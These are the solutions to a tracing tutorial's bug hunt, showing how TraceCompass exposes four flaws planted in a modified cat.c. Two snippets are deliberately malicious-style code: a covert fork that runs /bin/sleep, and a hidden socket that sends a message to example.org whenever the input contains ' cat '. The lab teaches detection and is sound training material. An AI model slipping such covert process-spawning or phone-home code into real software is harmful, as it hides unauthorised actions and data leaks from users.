



### Solutions to the Bug Hunt

The `cat` file had 4 more or less obvious problems/issues. This is a teaching use case, meant to show some potential issues in a very very simple program. "Real" issues will be a lot harder to find in a much more complex code base. But the tools are the same.

- - -

#### Bug #1: memory leak

As mentioned in a previous lab, TraceCompass does not claim to be a memory leak finder. `Valgrind` would do a better job in this case and pinpoint the exact line of the leaked memory allocation. But we can observe it in TraceCompass and see where/when in the execution the leak may have happened.


This happens in the `cat.c` file at line 769

```c
769    test = malloc(1000);
770    printf("That's a custom-compiled cat for tutorial purposes %s", test);
771    inbuf = xmalloc (insize + 1 + page_size - 1);
772    test = inbuf;  // Losing my pointer
```

- - -

#### Bug #2: An "optimization loop" of usleep

When developing, it's often convenient to add some latency at some places to avoid a race condition or make sure some other condition is met. The techniques used are sometimes... dubious... One of them is adding sleeps in the code. We can see those with TraceCompass. The critical path shows a `Timer` state for those and the thread is blocked.



This happens in the `cat.c` file in the `next_line_num` function at line 175:

```c
132    static void
133    next_line_num (void)
134    {
         ....
174      // Optimization loop, remove when we need more perf ;-)
175      usleep(100);
176    }
```

- - -

#### Bug #3: Spawning a process!

Most complex applications today are multi-threaded so we expect to see a lot of children to a given process. But could one of those children be a malicious one? TraceCompass shows all the hierarchy of processes and threads, so in doubt, it is possible to examine one in particular and see what it does.

In our case, `cat` is not expected to have any children, but it has, and more than one.

* Some are named `cat-ust`. Looking at their critical path, we see it interacts with `lttng-consumerd`. Since we are explicitly tracing `cat` with `lttng-ust`, this behaviour would be normal in this case. Everythin happens before the call to main, so it's the libraries preloading.

* We also observe a `sleep` process being spawned during execution, in the middle of a `next_line_num` function. That is not normal. `sleep` is harmless here, but a malicious application could start a key logger process for instance.



This happens in the `cat.c` file in the `next_line_num` function from line 136 to 158:

```c
136    if ((endp - line_num_start) == 2 && execDone == 0) {
137      // This file looks long enough, let's subrepticiously start a thread hehehe
138      pid_t process = fork();
139
140      if (process < 0){
141        //fork error, oops, just be quiet...
142      }
143      if (process == 0){
144        char cmd_exec[11] = "/bin/sleep";
145        char time_sec[2] =  "5";
146        char* argv[2];
147
148        argv[0] = cmd_exec;
149        argv[1] = time_sec;
150
151        execv("/bin/sleep", (char *[]){ cmd_exec, time_sec, NULL });
152        fprintf(stderr, "\n********************\n");
153        fprintf(stderr, " Unable to exec %s: %d\n", argv[0], errno);
154        fprintf(stderr, "********************\n");
155        exit(1);
156      }
157      execDone = 1;
158    }
```

- - -

#### Bug #4: Subrepticious Phone Home

Computer systems, from smart phones to data centers, store a lot of very sensitive/personal data, that can be of interest to many attackers. It may be tempting for some attackers to add some code snippets to leak this precious data. With TraceCompass and the critical path, we can observe network connections and messaging. Of course, the implementation here is naive. If I were to write such a code, I'd make sure it is not obvious like this one, but... not all attackers are smart or know about this?

Here, we do not expect `cat` to do any network connection, unless we are catting a file from the network, which we aren't. So those network connections are fishy.



This happens in the `cat.c` file in the `cat` function from line 513 to 533:

```c
513    if (bpin + 5 < eob && *bpin == ' ' && *(bpin + 1) == 'c' && *(bpin + 2) == 'a' && *(bpin + 3) == 't' && *(bpin + 4) == ' ') {
514      // omg, he said ' cat ', we need to tell the boss
515      int sockfd = 0,n = 0;
516      char sendBuff[1024] = "Hey boss, this user said cat, that's not right";
517      struct sockaddr_in serv_addr;
518
519      if((sockfd = socket(AF_INET, SOCK_STREAM, 0))> 0)
520        {
521          serv_addr.sin_family = AF_INET;
522          serv_addr.sin_port = htons(80);
523          serv_addr.sin_addr.s_addr = inet_addr("93.184.216.34");      // www.example.org
524
525          if(connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr))>=0)
526            {
527              n = write(sockfd, sendBuff, sizeof(sendBuff)-1);
528              if (n < 0) {
529                // Couldn't tell boss, that's too bad
530              }
531            }
532        }
533    }
```
